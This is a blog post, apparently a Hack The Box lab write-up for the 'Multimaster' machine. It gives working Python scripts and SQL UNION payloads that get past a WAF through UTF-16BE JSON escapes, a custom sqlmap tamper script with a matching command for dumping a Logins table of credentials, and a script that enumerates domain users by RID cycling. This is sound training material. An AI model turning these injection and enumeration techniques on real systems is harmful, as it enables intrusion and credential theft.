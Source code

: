 ```yaml
---
layout: post
title: "Playing with HTB{ Multimaster }"
date: 2020-09-19 21:00:00 +0300
author: snovvcrash
tags: [notes, hackthebox, machine, windows, mssql, sqli, sqlmap, sqlmap-tamper, rid-cycling]
---
```


Automate MS SQL injection with a custom sqlmap tamper script to bypass WAF through a UTF-16BE encoded JSON payload. Enumerate AD domain users via RID cycling from within the MS SQL DBMS.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/232"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-insane">7.7/10</span>
</p>

![banner.png](/assets/images/htb/machines/multimaster/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/multimaster/info.png)
{:.center-image}

* TOC
{:toc}

# SQLi

## Manual exploitation

JSON format can understand various encodings [including UTF-16BE](https://stackoverflow.com/questions/11641983/encoding-json-in-utf-16-or-utf-32) like follows: `\u00XX`. The payload `' OR 1=1-- -`, for example, will turn into `\u0027\u0020\u004f\u0052\u0020\u0031\u003d\u0031\u002d\u002d\u0020\u002d` after being encoded. I will abuse that fact to bypass WAF (that blocked pretty much everything) and script the injection:

```python
#!/usr/bin/env python3

# Usage: rlwrap ./sqli.py

from binascii import hexlify

import requests

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}

# SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'

while True:
	payload = input('SQLi> ')
	payload = hexlify(payload.encode()).decode()
	payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
	payload = ''.join(payload)
	data = r'{"name":"' + payload + r'"}'
	proxies = {'http': 'http://127.0.0.1:8080'}
	resp = requests.post(URL, headers=HEADERS, data=data, proxies=proxies)
	try:
		print(resp.json()[0]['name'])
	except:
		pass
```

Then I will use MS SQL `STUFF()` function to emulate MySQL `group_concat()` behavior and dump Hub_DB..Logins table:

```
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM master..sysdatabases FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM Hub_DB..sysobjects WHERE xtype = 'U' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + Hub_DB..syscolumns.name + ':' + TYPE_NAME(Hub_DB..syscolumns.xtype) FROM Hub_DB..syscolumns, Hub_DB..sysobjects WHERE Hub_DB..syscolumns.id=Hub_DB..sysobjects.id AND Hub_DB..sysobjects.name='Logins' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + username + ':' + password FROM Hub_DB..Logins FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
```

![manual-exploit-out.png](/assets/images/htb/machines/multimaster/manual-exploit-out.png)
{:.center-image}

## sqlmap

To teach sqlmap how to exploit this vulnerability with WAF bypass I will write a custom tamper that converts my payload to UTF-16BE string:

```python
#!/usr/bin/env python3

# /usr/share/sqlmap/tamper/utf16be.py

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
from binascii import hexlify

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
	pass

def tamper(payload, **kwargs):
	retVal = payload

	if payload:
		retVal = hexlify(retVal.encode()).decode()
		retVal = [r'\u00'+retVal[i:i+2] for i in range(0, len(retVal), 2)]
		retVal = ''.join(retVal)

	return retVal
```

Now I can dump all the databases:

```
root@kali:$ sqlmap --batch -u 'http://multimaster.megacorp.local/api/getColleagues' --method POST -H 'Content-Type: application/json;charset=utf-8' --data '{"name":"*"}' --dbms mssql -p name --delay 2 --technique U --union-cols 5 --union-char 1337 --tamper utf16be --dump --proxy http://127.0.0.1:8080
```

![sqlmap-out-1.png](/assets/images/htb/machines/multimaster/sqlmap-out-1.png)
{:.center-image}

![sqlmap-out-2.png](/assets/images/htb/machines/multimaster/sqlmap-out-2.png)
{:.center-image}

![sqlmap-out-3.png](/assets/images/htb/machines/multimaster/sqlmap-out-3.png)
{:.center-image}


And this is how the requests looks like for real (Burp Suite):

![request-in-burp.png](/assets/images/htb/machines/multimaster/request-in-burp.png)
{:.center-image}

However, after all this stuff I was pointed out that there was already a ready-made tamper script doing literally the same thing... Just had to google it a little bit more :expressionless:

Details here: [Bypassing WAFs with JSON Unicode Escape Sequences - TrustFoundry](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/)

# RID Cycling

Unfortunately, these users were not enough to login at least somewhere, so I will write a script to brute force some RIDs from within the MS SQL Server:

```python
#!/usr/bin/env python3

import time
from binascii import hexlify
from base64 import b64encode, b64decode

import requests
import sid

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}


class SQL:

	"""
	SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'
	"""

	def inject(self, payload, mode='sname'):
		query = """1337' UNION SELECT '1',(SELECT CAST(N'' AS XML).value('xs:base64Binary(xs:hexBinary(sql:column("bin")))', 'VARCHAR(MAX)') Base64Encoding FROM (SELECT CAST(%s AS VARBINARY(MAX)) AS bin) AS bin_sql_server_temp),'3','4','5'-- -"""

		if mode == 'sname':  # input sid, output username
			func = "SUSER_SNAME(0x%s)"
			sid_mode = sid.SID_STRING
			payload = sid.sid(payload).binary()
			payload = hexlify(payload).decode()
			payload = payload.upper()
		elif mode == 'sid':  # input username, output sid
			func = "SUSER_SID('%s')"
			sid_mode = sid.SID_BASE64

		query = query % func % payload

		data = r'{"name":"' + self.waf_bypass(query) + r'"}'
		proxies = {'http': 'http://127.0.0.1:8080'}
		resp = requests.post(URL, headers=HEADERS, data=data)

		out = resp.json()[0]['name']

		if mode == 'sname':
			return b64decode(out.encode()).decode()
		elif mode == 'sid':
			return sid.sid(out, sid_mode).str()

	def waf_bypass(self, payload):
		payload = hexlify(payload.encode()).decode()
		payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
		payload = ''.join(payload)
		return payload


# print(SQL().inject('Administrator', mode='sid'))  # S-1-5-21-3167813660-1240564177-918740779-500

sql = SQL()
for rid in range(1000, 2000):
	s = f'S-1-5-21-3167813660-1240564177-918740779-{rid}'
	o = sql.inject(s)
	if o:
		print(f'{s} => {o}')
	time.sleep(2)
```

The script uses an SQL query to encode output of `SUSER_SNAME()` and `SUSER_SID()` to Base64 and then asks the server about the SIDs it knows. The basic (domain) SID is found by quering `SUSER_SID('Administrator')`. For converting between varbinary SID and common string SID I used a 3rd party module [python-sid](https://github.com/sspreitzer/python-sid).

![request-in-burp.png](/assets/images/htb/machines/multimaster/rid-brute-out.png)
{:.center-image}

# Refs

* [MSSQL Injection Cheat Sheet / pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Simulating group_concat MySQL function in Microsoft SQL Server 2005? - Stack Overflow](https://stackoverflow.com/questions/451415/simulating-group-concat-mysql-function-in-microsoft-sql-server-2005)
* [The Mystery of the SUSER_NAME() and SUSER_SNAME() functions - sqlity.net](https://sqlity.net/en/1795/mystery-suser_name-suser_sname-functions/)
